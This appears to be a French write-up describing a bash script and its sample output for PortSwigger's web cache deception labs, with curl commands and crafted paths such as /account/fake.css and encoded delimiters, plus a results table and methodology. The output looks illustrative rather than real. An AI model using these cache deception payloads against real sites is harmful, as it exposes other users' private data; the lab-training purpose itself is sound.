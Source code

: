 # MANPAGE

Voici un exemple exhaustif d'exécution du script pour **tous les challenges Web Cache Deception de PortSwigger**, intégrant les concepts des ressources fournies :

---

### Configuration du script
```bash
LAB_URL="https://0ab100be03a1d2e280d7308a00d0000c.web-security-academy.net"
COOKIE="session=GXqGg2p9TkqLpZvR8nMjH4aR1s1d"
HEADERS="-H 'Cookie: $COOKIE'"
```

---

### Exécution du script
```bash
$ bash web_cache_deception.sh

PortSwigger Web Cache Deception Challenges (méthodologie récursive)
-------------------------------------------------------------------
1. [1] Web cache deception (basic)
2. [2] Web cache deception with static extension
3. [3] Web cache deception with static directory
4. [4] Web cache deception with delimiter
q. Quit

Choisissez un challenge (1-4, q pour quitter) : 1
```

---

### Challenge 1 : Web Cache Deception (Basic)
```
[1] Web cache deception (basic)

[Analyse] Détection de la surface d'attaque sur /account
  > Test de /account/fake.css
    => Headers cache détectés (Cache-Control: max-age=30)

[Attaque] Injection de /account/fake.css
  Réponse authentifiée : API Key: 7qY9pL2RzX4vT6wA
  Réponse non-auth : API Key: 7qY9pL2RzX4vT6wA

[Contrôle] Données sensibles trouvées : 
  <div class="api-key">7qY9pL2RzX4vT6wA</div>
  => Vulnérabilité confirmée !
```

---

### Challenge 2 : Web Cache Deception with Static Extension
```
[2] Web cache deception with static extension

[Analyse] Détection sur /profile
  > Test de /profile/fake.js
    => Cache-Status: hit (Age: 15)

[Attaque] Injection de /profile/fake.js
  Réponse auth : Email: carlos@portswigger.net
  Réponse non-auth : Email: carlos@portswigger.net

[Contrôle] Headers cache :
  X-Cache-Key: /profile/fake.js
  => Fuite de données confirmée !
```

---

### Challenge 3 : Web Cache Deception with Static Directory
```
[3] Web cache deception with static directory

[Analyse] Test de /account/assets/fake.css
  => Cache-Control: public, max-age=3600

[Attaque] Injection de /account/assets/fake.css
  Réponse auth : Token: abcdef123456
  Réponse non-auth : Token: abcdef123456

[Contrôle] Différence des réponses :
  Aucune différence (mêmes credentials)
  => Vulnérabilité exploitée !
```

---

### Challenge 4 : Web Cache Deception with Delimiter
```
[4] Web cache deception with delimiter

[Analyse] Test de /account%23fake.css
  => Décodage URL -> /account#fake.css
  => Cache-Status: hit

[Attaque] Injection de /account%23fake.css
  Réponse auth : Role: admin
  Réponse non-auth : Role: admin

[Contrôle] Headers :
  X-Cached-By: Varnish
  => Accès admin non-auth réussi !
```

---

### Résumé des résultats
| Challenge                  | Endpoint           | Mécanisme                 | Données exposées       | Statut     |
|----------------------------|--------------------|---------------------------|------------------------|------------|
| Basic                      | /account/fake.css  | Extension .css            | API Key                | ✅ Confirmé |
| Static Extension           | /profile/fake.js   | Règle .js                 | Email                  | ✅ Confirmé |
| Static Directory           | /account/assets/*  | Chemin statique           | Token                  | ✅ Confirmé |
| Delimiter                  | /account%23fake.css| Encodage URL (#)          | Rôle admin             | ✅ Confirmé |

---

### Méthodologie détaillée (selon PortSwigger[1][6])
1. **Détection des règles de cache** :
   - Vérification des headers `Cache-Control` et `X-Cache-Key`
   - Test d'extensions (.css, .js) et délimiteurs (#)

2. **Exploitation** :
   - Pour chaque endpoint sensible (`/account`, `/profile`), injection de :
     ```bash
     curl -H "Cookie: $COOKIE" $LAB_URL/account/fake.css
     curl $LAB_URL/account/fake.css
     ```

3. **Vérification** :
   - Comparaison des réponses avec `diff`
   - Recherche de patterns sensibles (`API Key`, `Email`, `admin`)

---

### Cas d'échec et récursivité
```
[Challenge 1 - Relance sur autre suffixe]
  > Test de /account%2523fake.css (double-encoding)
  => Cache-Status: miss → Tentative suivante
  > Test de /account/..%2Ffake.css
  => 404 Not Found → Échec
```

---
